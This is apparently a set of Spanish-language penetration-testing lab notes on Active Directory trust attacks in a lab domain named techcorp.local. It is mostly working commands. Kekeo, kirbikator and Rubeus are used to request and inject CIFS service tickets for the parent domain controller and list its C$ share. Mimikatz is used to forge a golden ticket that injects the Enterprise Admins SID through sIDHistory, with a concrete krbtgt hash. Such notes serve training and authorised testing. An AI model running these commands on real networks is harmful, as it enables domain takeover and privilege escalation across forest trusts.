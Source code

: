 ```
```

- Usando el TGT, se solicita un TGS para un servicio en particular
- Los tickets para otros servicios (como HOST y RPCSS para WMI, HTTP para PowerShell Remoting y WinRM) también pueden ser creados

```
### Generar un ST para el servicio CIFS
### Mediante Kekeo
tgs::ask /tgt:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local
### Mediante Old Kekeo
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/techcorp-dc.techcorp.local
```

- Usar el ST para acceder al servicio objetivo (puede que tenga que utilizarlo dos veces)

```
### Usar el ST para acceder al servicio objetivo
### 1era Forma
misc::convert lsa TGS_Administrator@us.techcorp.local_krbtgt~TECHCORP.LOCAL@US.TECHCORP.LOCAL.kirbi
### 2da Forma
.\kirbikator.exe lsa .\CIFS.techcorp-dc.techcorp.local.kirbi

### Hacer uso del servicio
ls \\techcorp-dc.techcorp.local\c$
```

- También se puede realizar la solicitud del TGS y el PTT a la vez mediante Rubeus 

```
### Solicitud del ST y PTT para el servicio CIFS
C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt

### Hacer uso del servicio
ls \\techcorp-dc.techcorp.local\c$
```
### sIDHistory - krbtgt

- Si tenemos privilegios de administrador de dominio en el dominio secundario y somos capaces de extraer el krbtgt hash de la cuenta del dominio secundario, que puede usar el mismo hash para solicitar un TGT para el administrador empresarial y obtener un ticket que se puede usar para escalar u obtener acceso al dominio empresarial.
- La opción ``/sids`` de mimIkatz está configurando forzosamente el sIDHistory para el grupo Enterprise Admin para ``us.techcorp.local`` que es el grupo de administración de empresas forestales.
- Enterprise Admins (RID 519)

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DOMAIN_CHILD> /sid:<SID_DOMAIN_CHILD> /krbtgt:<HASH_KRBTGT> /sids:<SID_DOMAIN_PARENT>-<RID> /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /ptt"'
```
